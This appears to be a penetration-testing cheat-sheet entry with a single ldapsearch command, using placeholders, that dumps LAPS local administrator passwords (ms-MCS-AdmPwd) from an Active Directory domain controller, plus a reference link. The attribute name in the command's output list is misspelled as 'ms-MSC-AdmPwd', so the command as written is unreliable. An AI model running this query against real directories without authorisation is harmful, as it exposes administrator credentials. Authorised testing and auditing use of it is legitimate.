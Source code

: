 # Unix Shell

## 01 - LDAP Port

```
$ ldapsearch -x -D "<username>" -w "<password>" -b "dc=<domain>,dc=<tld>" -h <domain_controller_IP> "(ms-MCS-AdmPwd=*)" ms-MSC-AdmPwd
```

---
## References

### Mubix

- [Malicious.link: Dump LAPS passwords with ldapsearch](https://room362.com/posts/2017/dump-laps-passwords-with-ldapsearch/)